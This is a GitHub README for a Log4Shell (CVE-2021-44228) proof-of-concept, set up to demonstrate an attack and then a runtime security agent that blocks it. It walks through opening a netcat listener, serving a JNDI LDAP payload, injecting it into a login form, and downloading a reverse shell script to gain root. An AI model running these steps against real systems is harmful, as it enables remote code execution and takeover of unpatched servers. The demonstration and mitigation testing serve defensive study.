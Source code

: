 # log4j-shell-poc
A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>
Kudos to kozmer for the POC. I just added some niceties for demoing purposes and added the Waratek agent.<br><br>

Setup
----------------------------------------

This works best with two machines. I prefer to spin up 2 droplets on Digital Ocean because it's cheap for test purposes.<br><br>
One machine acts as the target while the other acts as the attacker.<br><br>
Before moving forward, download the following version of Java SE Development Kit `java-8u20` here: https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html<br><br>

Prep
----------------------------------------

- Move the extracted archive for the Java SE Development Kit into the root of this repo
- Upload the root of this repo with the extracted Java SE Development Kit into your **attacker** machine
- Ensure that `python3` is installed on your attacker machine (if not follow guide here: https://www.digitalocean.com/community/tutorials/how-to-install-python-3-and-set-up-a-programming-environment-on-an-ubuntu-20-04-server)
- Upload the root of this repo without the extracted Java SE Development Kit into your **target** machine

Steps to Follow
----------------------------------------

#### Start the vulnerable application on the target machine with the following commands

```bash
$ docker build -t log4j-shell-poc .
$ docker run --network host log4j-shell-poc
```

Note: This runs the application without the Waratek Security-as-Code platform. More information on implementing the platform below.<br><br>

### Prep the exploit

- On the attacker machine open 2 shells: One to listen for the reverse shell, and one to run the server
- On the first shell for the attacker machine, open a port with netcat: `$ nc -lvnp 9001`
- On the second shell for the attacker machine, start the webserver that will deliver the exploit payload with: `$ python3 poc.py --userip {attackerIP} --webport 8080 --lport 9001` where `{attackerIP}` is the IP address of the attacker machine
- When the web server launches, you'll receive a payload in the ouput as seen below:
```py
$ python3 poc.py --userip {attackerIP} --webport 8080 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```
- Copy the payload from __"Send me:"__ and open up the vulnerable application in your browser.
- Paste the payload into the email field and put in any value as the password, then press "Sign in."
- The browser should hang and then on the attacker machine shell with netcat running you should see a connection established.
- Download this reverse shell Python script with: `$ curl -O https://gist.githubusercontent.com/jacobwarren/0abf1c5d3d2e969ac8dfcc5a10abf8e8/raw/7dce0c1924c06c20c1471bc4c0824704024c535c/revsh.py`
- Then run it with `$ python3 revsh.py` to establish a TTY
- Now run `$ WHOAMI` to verify that you're indeed root.

Testing the Security-as-Code agent
----------------------------------------

- Move the `waratek` folder to the root directory of this repo
- In the `Dockerfile` uncomment out lines 30, 33, and 36.

#### Line 30
This line adds the waratek folder to the Tomcat directory in the container<br><br>

#### Line 33
This line sets proper permissions for the contents of the agent folder<br><br>

#### Line 36
This line sets the Java options to start launch your application with Waratek as your Java agent<br><br>

### Configure your agent
Within the `waratek/conf_1` directory, open the `waratek.properties` file.<br><br>

- Assign the desired agent ID to your application with the `com.waratek.ControllerKey` property
- Assign your organization ID with the `com.waratek.OrgId` property
- To authenticate your application, assign both your `accessKey` and `secretKey` to the assocated properties

### Rebuild Docker container
```bash
$ docker build -t log4j-shell-poc .
$ docker run --network host log4j-shell-poc
```

- Go through the above steps again to reproduce the POC
- Verify the exploit works
- Define your security behavior either in the Policy Config file (running in the container - so `docker exec` in) or from within the Portal
- Verify that the exploit isn't possible to perform again without restarting the container
